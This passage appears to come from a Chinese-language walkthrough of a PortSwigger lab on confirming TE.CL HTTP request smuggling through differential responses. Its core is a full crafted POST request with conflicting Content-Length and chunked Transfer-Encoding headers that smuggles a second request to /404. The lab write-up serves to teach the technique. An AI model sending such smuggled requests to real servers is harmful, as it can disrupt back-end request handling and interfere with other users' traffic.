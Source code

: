 由于此请求现在包含无效的URL，因此服务器将以状态代码404进行响应，指示攻击请求确实确实对其进行了干扰。

Lab地址：https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses

构造数据包：

```
POST / HTTP/1.1
Host: acd31fc11fdb90f980e526ce00b800a5.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=cGzs96HQw7tftthKo6AmNVgZ1wwj7PoH
Upgrade-Insecure-Requests: 1
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

![1594912365](http%E8%B5%B0%E7%A7%81/1594912365.png)

### 4.3 注意
